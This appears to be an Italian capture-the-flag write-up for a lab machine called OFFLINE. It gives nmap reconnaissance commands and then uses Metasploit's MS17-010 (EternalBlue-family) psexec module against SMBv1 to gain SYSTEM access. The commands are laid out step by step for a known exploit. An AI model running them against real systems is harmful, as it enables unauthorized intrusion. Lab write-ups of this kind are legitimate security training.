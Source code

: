 # OFFLINE



## ENUM
avviamo una scansione sulla macchina
```bash
sudo nmap -sC -sV OFFLINE.thm
```

successivamente avviamo uno scan con i vari script di nmap per quanto riguarda smb
```bash
sudo nmap -sV -p 445 --script *smb* OFFLINE.thm
```

lo script ci restituisce un nome utente SCARRA e per quanto riguarda il server ci dice che l'smb gira con la versione SMBv1
molto utile perchè ci specifica una versione con vulnerabilità critiche andiamo ad analizzare meglio la vulnerabilità

## MS17-010

consente di inviare sul protocollo richieste smb che permettono successivamente all'utente di assumere privilegi di 
/NT-autority system e successivamente inviare codice come admin di sistema
usiamo questa vulnerabilità per entrare sul sistema 

avviamo metasploit
```bash
msfconsole
```
entriamo sull'exploit
```bash
use exploit/windows/smb/ms17_010_psexec
```
impostiamo tutte le infomazioni richieste dall'exploit e lanciamolo


BINGO! siamo dentro con l'utente NT-autority


